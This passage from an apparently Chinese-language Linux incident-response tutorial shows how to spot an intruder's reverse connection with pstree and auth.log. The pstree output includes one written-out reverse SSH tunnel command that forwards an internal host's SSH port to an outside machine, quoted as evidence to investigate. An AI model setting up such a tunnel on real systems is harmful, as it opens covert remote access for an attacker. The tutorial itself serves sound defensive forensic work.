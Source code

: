 [![](assets/1709530725-b1b5b90569affc6c6b72681932ce4800.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301151133-ef92c49c-d79a-1.png)

### Linux 应急响应

想比 Windows，Linux 的好处是日志记得全

一样的网络连接

[![](assets/1709530725-51f2ef34e4a43fdca91f095c7dc7722d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301151148-f80fdc5e-d79a-1.png)

我们可以比较方便的看进程，跳板机：

```plain
~/桌面$ pstree -agplU | grep ssh
  │   │   │   │   ├─ssh-agent,4661,4661 /usr/bin/im-launch env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --systemd --session=ubuntu
  │   ├─ssh-agent,5687,4425 -D -a /run/user/1000/keyring/.ssh
  ├─sshd,1061,1061
  │   │   │   ├─grep,5712,5711 --color=auto ssh
  │   ├─ssh,5688,5688 -CfNg -R 2333:192.168.44.129:22 hackme@192.168.174.128
~/桌面$
```

可以看到有反向连接的命令，然后看看 auth.log

[![](assets/1709530725-1514ab8361e3a9d7d171f57db6e1ce6d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301151731-c4865182-d79b-1.png)
